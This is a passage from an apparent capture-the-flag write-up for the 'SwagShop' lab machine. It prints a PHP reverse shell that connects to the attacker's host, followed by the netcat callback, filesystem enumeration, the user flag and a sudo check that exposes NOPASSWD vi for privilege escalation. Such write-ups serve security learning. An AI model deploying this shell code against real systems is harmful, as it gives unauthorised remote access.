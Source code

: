 Here is our shell code:

```php
<?php
$sock = fsockopen("10.10.12.123",6969);
$proc = proc_open("/bin/sh -i", array(0=>$sock, 1=>$sock, 2=>$sock), $pipes);
```

After saving the file and browsing to `http://10.10.10.140/get.php`, we get the following callback:

```
root@kali:~/Downloads# nc -nvlp 6969
listening on [any] 6969 ...
connect to [10.10.12.123] from (UNKNOWN) [10.10.10.140] 41880
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ cd /home
$ ls -la
total 12
drwxr-xr-x  3 root  root  4096 May  2 14:48 .
drwxr-xr-x 23 root  root  4096 May  2 14:55 ..
drwxr-xr-x  3 haris haris 4096 May  8 09:21 haris
$ cd haris
$ ls -la
total 36
drwxr-xr-x 3 haris haris 4096 May  8 09:21 .
drwxr-xr-x 3 root  root  4096 May  2 14:48 ..
-rw------- 1 haris haris   54 May  2 14:56 .Xauthority
lrwxrwxrwx 1 root  root     9 May  8 09:20 .bash_history -> /dev/null
-rw-r--r-- 1 haris haris  220 May  2 14:48 .bash_logout
-rw-r--r-- 1 haris haris 3771 May  2 14:48 .bashrc
drwx------ 2 haris haris 4096 May  2 14:49 .cache
-rw------- 1 root  root     1 May  8 09:20 .mysql_history
-rw-r--r-- 1 haris haris  655 May  2 14:48 .profile
-rw-r--r-- 1 haris haris    0 May  2 14:49 .sudo_as_admin_successful
-rw-r--r-- 1 haris haris   33 May  8 09:01 user.txt
$ cat user.txt
a448877277e82f05e5ddf9f90aefbac8
```

And thats user with a reverse shell. Lets enumerate more for root:

## `root.txt`

One of the first things we should always start with is an elevated shell:

```
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@swagshop:/var/www/html$
```

Next we always check our current access:

```
www-data@swagshop:/var/www/html$ sudo -l
sudo -l
Matching Defaults entries for www-data on swagshop:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on swagshop:
    (root) NOPASSWD: /usr/bin/vi /var/www/html/*
```
